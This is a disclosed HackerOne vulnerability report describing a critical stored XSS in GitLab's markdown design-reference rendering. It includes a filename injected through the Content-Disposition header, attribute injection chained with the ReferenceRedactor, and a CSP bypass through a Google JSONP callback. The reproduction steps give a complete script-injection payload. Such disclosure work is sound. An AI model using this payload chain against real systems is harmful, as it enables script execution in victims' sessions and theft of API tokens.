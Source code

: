 # Stored XSS in markdown via the DesignReferenceFilter 

## Report Details
- **Report ID**: 1212067
- **URL**: https://hackerone.com/reports/1212067
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-05-28T14:42:01.389Z
- **Disclosed**: 2021-10-18T05:49:14.373Z

## Reporter
- **Username**: vakzz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
### Summary
When rendering markdown, links to designs are parsed using the following `link_reference_pattern`:

https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/app/models/design_management/design.rb#L168
```ruby
    def self.link_reference_pattern
      @link_reference_pattern ||= begin
        path_segment = %r{issues/#{Gitlab::Regex.issue}/designs}
        ext = Regexp.new(Regexp.union(SAFE_IMAGE_EXT + DANGEROUS_IMAGE_EXT).source, Regexp::IGNORECASE)
        valid_char = %r{[^/\s]} # any char that is not a forward slash or whitespace
        filename_pattern = %r{
          (?<url_filename> #{valid_char}+ \. #{ext})
        }x

        super(path_segment, filename_pattern)
      end
    end
```

The `url_filename` match is then used in `parse_symbol`:
https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/lib/banzai/filter/references/design_reference_filter.rb#L75
```ruby
def parse_symbol(raw, match_data)
  filename = match_data[:url_filename]
  iid = match_data[:issue].to_i
  Identifier.new(filename: CGI.unescape(filename), issue_iid: iid)
end
```

Since `valid_char` is anything apart from a forward slash or whitespace, this allows for any other special characters (such as quotes) to be matched.

The final `url` match gets used when creating the link in `object_link_filter`:

https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/lib/banzai/filter/references/abstract_reference_filter.rb#L219
```ruby
url =
  if matches.names.include?("url") && matches[:url]
    matches[:url]
  else
    url_for_object_cached(object, parent)
  end

content = link_content || object_link_text(object, matches)

link = %(<a href="#{url}" #{data}
            title="#{escape_once(title)}"
            class="#{klass}">#{content}</a>)
```

So if a design could be uploaded with a double quote in it's filename, this would cause it to break out of the href attribute.

Normally file uploads would go through workhorse and end up being sanitized by CarrierWave::SanitizedFile, but it's possible when uploading a design to skip the workhorse by using a `Content-Disposition` header such as `Content-Disposition: form-data; name="1"; filename*=ASCII-8BIT''filename.png` which allows for any character to be used as part of the design filename.

Since whitespaces and slashes are still invalid, it's only possible to inject tags without attributes, or inject attributed into the `a` element. 

Injecting attributes can be chained with the `ReferenceRedactor` to replace the node with arbitrary html via the `data-original` attribute:

https://gitlab.com/gitlab-org/gitlab/-/blob/v13.12.1-ee/lib/banzai/reference_redactor.rb#L77
```ruby
def redacted_node_content(node)
  original_content = node.attr('data-original')
  link_reference = node.attr('data-link-reference')

  # Build the raw <a> tag just with a link as href and content if
  # it's originally a link pattern. We shouldn't return a plain text href.
  original_link =
    if link_reference == 'true'
      href = node.attr('href')
      content = original_content

      %(<a href="#{href}">#{content}</a>)
    end
```

For a CSP bypass, the jsonp endpoint of the google api can be used in combination with `setTimeout`:
`https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout`

### Steps to reproduce

1. Create a new project on gitlab.com
2. Create a new issue
3. Make sure burp or similar is running
4. Upload a new design
5. Edit the request and change the Content-Disposition header to `Content-Disposition: form-data; name="1"; filename*=ASCII-8BIT''bbb%22class%3D%22gfm%22a%3D%27.png`
6. Refresh the page, there should now be a design named `bbb"class="gfm"a='.png`
7. Create a new issue using the design link and the inner html containing a quote:
```
<a href='https://gitlab.com/vakzz-h1/design-xss/-/issues/2/designs/bbb%22class%3D%22gfm%22a%3D%27.png'>
' vakzz=here
</a>
```
8. Looking at the markup you can see the `a` attribute contains everything up to the inner html and then the attribute `vakzz` has also been injected:
```html
<a href="https://gitlab.com/vakzz-h1/design-xss/-/issues/2/designs/bbb" class="gfm" a=".png&quot; data-original=&quot;
' vakzz=here
&quot; data-link=&quot;true&quot; data-link-reference=&quot;true&quot; data-project=&quot;26924211&quot; data-design=&quot;226146&quot; data-issue=&quot;87875440&quot; data-reference-type=&quot;design&quot; data-container=&quot;body&quot; data-placement=&quot;top&quot;
                          title=&quot;bbb&quot;class=&quot;gfm&quot;a='.png&quot;
                          class=&quot;gfm gfm-design has-tooltip&quot;>
" vakzz="here"></a>
```
7. Create a new issue using the design link, this time including the required data attributed to trigger the `ReferenceRedactor` and the payload html encoded in the `data-original`:

```
<a href='https://gitlab.com/vakzz-h1/design-xss/-/issues/2/designs/bbb%22class%3D%22gfm%22a%3D%27.png'>
' data-design="1" data-issue="1" data-reference-type="design" data-original="
  &lt;script src='https://apis.google.com/complete/search?client=chrome&q=alert(document.domain);//&callback=setTimeout'>&lt;/script>
"
</a>
```
8. Save the issue and reload the page

{F1318763}

### Impact
Stored XSS with CSP bypass allowing arbitrary javascript to be run anywhere that markdown could be posted (issues, comments, etc). This could be used to create and exfiltrate api tokens with full access as described in https://hackerone.com/reports/1122227 targeting individuals or specific projects.

### Examples
POC:
https://gitlab.com/vakzz-h1/design-xss/-/issues/3

### What is the current *bug* behavior?
* The `AbstractReferenceFilter` is generating the `link` using string interpolation but the `url` could contain double quotes
* The design model  can have an arbitrary` attribute

### What is the expected *correct* behavior?
* The url should be validated or escaped before being used
* The design model could probably have a validator for the filename

### Relevant logs and/or screenshots

### Output of checks

This bug happens on GitLab.com

## Impact

Stored XSS with CSP bypass allowing arbitrary javascript to be run anywhere that markdown could be posted (issues, comments, etc). This could be used to create and exfiltrate api tokens with full access as described in https://hackerone.com/reports/1122227 targeting individuals or specific projects.

## Attachments
- xss.mp4
